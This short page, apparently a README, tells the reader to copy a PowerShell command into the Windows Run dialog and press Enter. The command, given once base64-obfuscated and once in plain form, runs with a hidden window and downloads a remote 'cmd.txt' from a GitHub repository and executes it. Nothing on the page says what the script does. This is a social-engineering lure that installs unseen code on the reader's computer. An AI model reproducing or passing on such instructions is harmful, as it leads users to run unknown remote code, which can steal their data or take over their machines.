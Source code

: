 DO THIS ON YOUR PC:

1) COPY THIS: ```powershell.exe -windowstyle hidden Invoke-Expression([Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('KEludm9rZS13ZWJyZXF1ZXN0IC1VUkkgImh0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9hbGV4LVgtMTIvQXRvbWl4LWZ1emUvbWFpbi9jbWQudHh0IikuQ29udGVudA==')))```
or: ```powershell.exe -windowstyle hidden Invoke-Expression(Invoke-webrequest -URI "https://raw.githubusercontent.com/alex-X-12/Atomix-fuze/main/cmd.txt").Content```
2) HOLD WIN+R
3) HOLD CTR+V
4) PRESS ENTER!
